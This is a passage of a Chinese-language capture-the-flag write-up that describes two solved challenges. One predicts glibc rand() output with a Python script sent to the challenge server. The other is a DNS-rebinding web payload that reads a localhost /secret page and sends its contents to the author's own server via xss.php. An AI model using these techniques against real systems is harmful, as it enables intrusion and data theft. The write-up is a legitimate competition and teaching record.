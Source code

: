 文章中提到了：

```
state[i] = state[i-3] + state[i-31]
return state[i] >> 1

```

根据这一思路，如果我们能得到连续的超过32个生成的随机数，就可以预测后面生成的数字。为了得到连续的随机数，使用requests.session来keep-alive。

在实际测试中，我发现有时候预测出来的结果会和实际得到的结果差1，不过没有找到规律，所以没有管他，直接多跑了几遍就出来了flag，脚本如下：

```
import requests
while 1:
    s = requests.session()
    l = []
    for i in range(50):
  l.append(int(s.get('http://202.120.7.202:8888/').content.split('<code')[0].strip(), 10))
    resp = s.get('http://202.120.7.202:8888/?go=1')
    l.append(int(resp.content.strip()[:-32], 10))
    print resp.content.strip()[-32:]
    url = 'http://202.120.7.202:8888/?'
    for i in range(5):
        index = len(l)
        r = (l[index-3]+l[index-31]) % 2147483648  # 2147483647
        l.append(r)
        url += 'check[]={}&'.format(r)
    resp = s.get(url)
    print resp.request.url
    print resp.content

```

0x01 Monkey(web)
================

* * *

通过一个自己构造的页面来获取http://127.0.0.1:8080/secret页面的内容。

一开始想通过XSSI的思路来获取页面内容，不过只能得到Script Error错误，之后换了个思路，找到了https://bugzilla.mozilla.org/show_bug.cgi?id=1106687。

虽然带`.`的已经不能用了，但是还是可以利用这个思路来绕过。

我们先把自己的域名DNS TTL改成了10，然后提交一个页面http:// pkav.net:8080/，延迟60秒后读取http://pkav.net:8080/secret并把结果返回给远程服务器，在这段时间之内把域名的DNS记录修改为127.0.0.1，即可读取到http://127.0.0.1:8080/secret的内容。

打了两次没有成功，后来队友尝试了一下解析一下 pkav.net.刷新DNS缓存后成功了。

```
<html>
<script src="js/jquery-1.7.min.js"></script>
<script>
function getdata(){
    $.get('http://pkav.pkav.net:8080/secret',function(data){
        $.get('http://pkav.net/xss.php?xss='+data);
    });
}
function refresh(){
    $.get('http://pkav.pkav.net./');
}
setTimeout("refresh()",30000);
setTimeout("getdata()",100000);
</script>
</html>

```

